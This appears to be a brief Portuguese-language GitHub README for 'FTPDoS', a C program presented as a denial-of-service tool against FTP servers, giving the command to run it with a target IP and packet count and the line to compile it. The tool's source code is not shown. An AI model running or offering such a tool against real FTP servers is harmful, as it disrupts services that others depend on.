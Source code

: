 # FTPDoS
Script feito em C para DoS em serviços FTP

## Modo de uso
Você poder usar o já compilado com:
```sh
./ftpdos [IP] [QUANTIDADE DE PACOTES]
```

> Exemplo:
```sh
./ftpdos 192.168.0.1 500
```

ou pode compilar o seu a partir do codigo fonte:
```sh
gcc ftpdos.c -o ftpdos
```
